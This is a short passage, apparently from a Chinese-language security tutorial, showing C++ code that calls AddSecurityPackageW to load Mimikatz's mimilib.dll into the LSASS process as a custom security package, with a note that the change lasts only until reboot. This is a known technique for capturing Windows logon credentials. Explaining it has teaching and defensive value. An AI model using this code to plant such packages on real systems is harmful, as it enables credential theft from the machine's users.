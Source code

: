 ```c++
    // AddSecurityPackageW 默认在 System32 目录中搜索 mimilib.dll
    if (AddSecurityPackageW((LPWSTR)L"mimilib", &option) == SEC_E_OK)
    {
        wprintf(L"[*] Add security package successfully\n");
    }
}
```

编译并生成 AddSSP.exe 后，运行 AddSSP.exe 即可成功将 mimilib.dll 添加到系统。需要注意的是，以上代码仅将 CustSSP 加载到 LSASS 进程中，重启系统后会失效。